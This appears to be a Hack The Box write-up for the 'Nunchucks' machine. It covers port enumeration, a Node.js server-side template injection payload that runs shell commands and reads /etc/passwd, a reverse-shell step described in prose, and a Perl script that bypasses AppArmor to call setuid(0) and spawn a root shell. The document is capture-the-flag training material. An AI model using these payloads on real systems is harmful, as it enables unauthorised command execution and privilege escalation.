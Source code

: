 ```yaml
---
title: Nunchuks Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|_ 256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_ 256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open ssl/http nginx 1.18.0 (Ubuntu)
| tls-nextprotoneg: 
|_ http/1.1
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| tls-alpn: 
|_ http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
|_Not valid before: 2021-08-30T15:42:24
|_Not valid after: 2031-08-28T15:42:24
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that it takes us to a web page. Unfortunately we can't find much, but looking at the wappalyzer we see that there is Node.Js, something to be aware of. 

Using `gobuster vhost` it reports `store.nunchucks.htb` so let's investigate. 

## User Exploit

Seeing what the page looks like, let's try a SSTI

{{7*7}} we see that it works, so we are going to take advantage of this to send us a reverse shell. 

As we know that we are in front of Node.Js, we look for a payload in google and we find this one:
```bash
range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")().
```

We intercept the request with burpsuite and send the command escaping the " ".

We can see that we can list the etc password, so now let's send us a reverse shell

If we do a curl from the machine (burpsuite) to our IP, we see that we receive the trace, so we are going to create an index.html with a rev shell

## Root Exploit

Looking at the capabilities, we see `/usr/bin/perl = cap_setuid+ep`, but unfortunately the priv. escalation doesn't work at all for this part.

Listing appArmor profiles, we can see that we have `Perl`.

On the other hand, looking through the directories, inside the `/etc/apparmor.d` directory we find the `usr.bin.perl` file which allows us to see what perl can and cannot do. We see that it has deny in many aspects, root being one of them. That is why the priv. escalation using the perl capability did not work.

Also, inside the same file we found we see that `backup.pl` is executed. However, we cannot alter it. Just read it and execute it. 

Searching in Google for a bug related to PERL (apparmor perl bug), we found the following:
If you use a script that includes the shebang (#!) of the restricted application, the script will not have the same restrictions applied to it and will run.
Knowing that we can run scripts with the shebang and that they will not apply the AppArmor profile to the script, we can simply take the GTFOBins payload and add it to a script for execution.

```perl
/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```

We give `chmod +x` and when we execute it we become root. 
